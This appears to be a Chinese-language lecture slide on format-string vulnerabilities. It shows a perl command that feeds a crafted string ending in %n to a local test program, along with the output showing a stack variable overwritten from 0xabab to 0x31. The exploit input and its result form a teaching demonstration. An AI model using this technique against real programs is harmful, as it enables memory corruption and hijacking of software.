

# 修改栈上数据
perl -e 'system "./ formatstring", "\x74\xf0\xff\xbf %x %x %x %x %x %x %x %n" ‘
构造特殊输入，使得最终参数结构如下：
snprintf(buf, sizeof (buf), "\x74\xf0\xff\xbf %x %x %x %x %x %x %x %n");
执行结果如下：
# buffer (49): t��� f0b0ff bffff09e 1 c2 bffff194 bffff09e abab
# x is 49/0x31 (@ 0xbffff074)
结果表明：
x的值被修改，初始值为0xabab，修改为0x31